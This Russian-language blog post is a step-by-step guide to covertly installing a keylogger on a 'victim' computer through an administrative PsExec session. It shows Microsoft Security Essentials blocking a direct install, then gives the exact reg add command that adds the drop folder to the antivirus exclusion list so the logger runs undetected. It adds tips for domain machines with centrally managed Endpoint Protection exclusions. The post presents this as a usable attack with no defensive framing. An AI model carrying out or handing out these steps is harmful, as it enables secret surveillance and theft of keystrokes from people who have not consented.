 ```yaml
---
title: "Удалённая установка кейлоггера на компьютер с Microsoft Security Essentials или System Center Endpoint Protection"
date: 2015-02-15
---
```


**Дано:** Сессия PsExec (либо любая другая) с административными привилегиями на машине жертвы. У жертвы установлен Microsoft Security Essentials либо System Center Endpoint Protection.  
**Задача:** Незаметно для жертвы установить кейлоггер.  
  
Разберём неправильный и правильный способ решения данной задачи.  
  


###  **Неправильный способ**

**  
**

Для начала проверим, что произойдёт, если попробовать установить логгер "в лоб" без всяких ухищрений. Собираем бинарник, задаём в качестве рабочей директории что-нибудь неприметное, например  **c:\Windows\SysWOW64\WindowsPowerShell\**  
  
1\. Открываем сессию PsExec  
  
[![](/images/1.1.jpg)](/images/1.1.jpg)  
  


2\. Кидаем установщик логгера в директорию **c:\Windows\SysWOW64\WindowsPowerShell\**  и запускаем  
  
**c:\Windows\SysWOW64\WindowsPowerShell\trojan.exe**  
**  
**  


[![](/images/8.1.jpg)](/images/8.1.jpg)  


  


Ищем процесс кейлоггера

  


**tasklist /fi "IMAGENAME eq VME.exe"**

  


[![](/images/3.jpg)](/images/3.jpg)

  


  


  
  
  
Его нет. А почему? Да потому что, антивирус успешно отработал и радостно сообщил об этом жертве.

  


[![](/images/4.jpg)](/images/4.jpg)

  


  


[![](/images/5.jpg)](/images/5.jpg)

  


  
  
Операция провалена...

  


###  Правильный способ

  


Теперь пойдём другим путём и установим логгер в директорию, которая не будет проверятся антивирусом.  
  
Список исключений для Microsoft Security Essentials хранится в ключе реестра **HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths**  
  
1\. Для начала проверим его содержимое

  


**reg query "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths"**

  


[![](/images/6.jpg)](/images/6.jpg)

  


  


  
  
  
  
  
  
В данном случае список исключений пуст.  

  


2. Добавим в исключения директорию **c:\Windows\SysWOW64\WindowsPowerShell\**

  


**reg add "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths" /v c:\Windows\SysWOW64\WindowsPowerShell\ /d "1" /t REG_DWORD**

  


и проверим результат

  


**reg query "HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths"**

  


  


[![](/images/7.1.jpg)](/images/7.1.jpg)

  
  
3\. Помещаем логгер в выбранный нами каталог и запускаем его

  


**c:\Windows\SysWOW64\WindowsPowerShell\trojan.exe**

  


[![](/images/8.1.jpg)](/images/8.1.jpg)

  


Проверяем результат:

  


**tasklist /fi "IMAGENAME eq VME.exe"**

  


[![](/images/9.jpg)](/images/9.jpg)

  


PROFIT! Логгер запущен, а антивирус жертвы ни о чём не подозревает

  


[![](/images/10.jpg)](/images/10.jpg)

  


  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  


### 

###    


###  Поправка на домен

  


В случае когда жертва является членом домена AD и вместо **Essentials** у неё установлен **System Center Endpoint Protection** , логика действий будет немного другой. Endpoint Protection, как и  Essentials хранит исключения в HKLM\SOFTWARE\Microsoft\Microsoft Antimalware\Exclusions\Paths, но их список, скорее всего, будет настроен централизованно через политики защиты. В этом случае наши изменения будут перезаписаны после повторного применения политики, поэтому у нас есть два варианта действий:  


  * Если список исключений задан (в реестре есть какие-либо записи) устанавливаем логгер в любой из перечисленных там каталогов;
  * Если список исключений не задан (записи в реестре отсутствуют) то политика исключений не настроена и мы можем смело вписывать туда нужный нам каталог.



В остальном порядок действий ничем не отличается. 
